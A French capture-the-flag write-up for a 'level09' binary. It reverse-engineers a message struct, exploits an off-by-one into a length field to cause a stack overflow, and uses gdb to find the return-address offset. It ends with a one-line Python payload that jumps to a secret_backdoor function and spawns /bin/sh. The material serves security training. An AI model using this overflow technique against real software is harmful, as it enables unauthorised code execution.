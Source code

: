 En observant le binaire avec Ghidra, on trouve une fonction secret_backdoor qui permet de lancer un shell admin. On suppose qu'il va falloir utiliser un overflow pour faire pointer sur l'adresse de cette fonction.

Il y a une structure qui est utilisée pour générer un message, remarquable par ce bout d'ASM car il y a beaucoup d'assignations a partir d'un même pointeur, dans un pattern qui est trop "spécifique" pour appartenir à un array (https://www.tripwire.com/state-of-security/ghidra-101-creating-structures-in-ghidra):
```
0x00000000000008cb <+11>:    lea    -0xc0(%rbp),%rax
0x00000000000008d2 <+18>:    add    $0x8c,%rax // add 140 bytes
0x00000000000008d8 <+24>:    movq   $0x0,(%rax)
0x00000000000008df <+31>:    movq   $0x0,0x8(%rax)
0x00000000000008e7 <+39>:    movq   $0x0,0x10(%rax)
0x00000000000008ef <+47>:    movq   $0x0,0x18(%rax)
0x00000000000008f7 <+55>:    movq   $0x0,0x20(%rax) // then set next 40 bytes to 0, 8 by 8 up to 0x28 (40)
0x00000000000008ff <+63>:    movl   $0x8c,-0xc(%rbp) // then use movl to set 4 bytes at once to the value 140, probably an int
0x0000000000000906 <+70>:    lea    -0xc0(%rbp),%rax
```

Elle équivaut à
```
typedef struct message
{
    char text[140];
    char username[40];
    int len;
} message;
```

On remarque que setusername copie 41 caractères dans username (qui possède un buffer de 40). Avec cet overflow de 1, on peut changer l'int de la structure qui est juste après, qui impacte le nombre de caractères qui sont strncpy dans setmessage. Le buffer d'arrivée fait 140, on peut set le nombre de caractères à 255 max en overridant avec le caractère \xff, ce qui nous permet de faire un autre overflow et override l'adresse de retour.

Comme on est en architecture x64, l'adresse de retour se trouve juste au-dessus de RSP (schéma descriptif https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-MaTeRvboVjnErSpM-5Q%2F-MaThwaoo5UffZzrO0Jl%2Fimage.png). On peut donc lancer le programme avec un pattern, puis examiner RSP :

```
python -c "print 'A' * 40 + '\xff' + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4'" > /tmp/lol

gdb level09
(gdb) r < /tmp/lol
(gdb) x/20a $rsp
0x7fffffffe5c8: 0x4138674137674136      0x3168413068413967
0x7fffffffe5d8: 0x6841336841326841      0x4136684135684134
0x7fffffffe5e8: 0x3968413868413768      0x6941316941306941
0x7fffffffe5f8: 0x34694133694132        0x0
0x7fffffffe608: 0x581153f94fd03761      0x555555554790 <_start>
[...]
```
Le pattern match à 208, donc l'offset est à 200, c'est là qu'il faut que l'adresse de secret_backdoor soit placée

```
(gdb) info functions backdoor
All functions matching regular expression "backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
\x8c\x48\x55\x55\x55\x55\x00\x00
```
On oublie pas de rajouter /bin/sh juste à la fin comme secret_backdoor lance `system` avec l'input de l'utilisateur

`(python -c "print 'A' * 40 + '\xff' + '\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '/bin/sh'"; cat ) | ./level09`

On peut cat le flag de end